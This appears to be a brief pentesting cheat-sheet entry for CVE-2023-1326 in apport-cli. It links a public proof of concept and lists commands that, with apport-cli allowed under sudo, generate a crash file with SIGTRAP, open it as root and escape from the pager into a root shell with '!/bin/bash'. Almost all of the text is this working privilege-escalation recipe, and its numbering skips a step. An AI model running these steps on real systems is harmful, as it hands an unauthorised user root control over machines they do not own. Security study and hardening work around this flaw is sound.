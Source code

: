 # apport-clie
#crash #crashdump

See [here](https://github.com/diego-tella/CVE-2023-1326-PoC/blob/main/README.md).

1. Check if apport-cli is in `sudo -l`
2. Create a crash file (`sleep 500 &; kill -s SIGTRAP $(pgrep sleep)`)
4. `sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash` -> `V` -> `!/bin/bash`

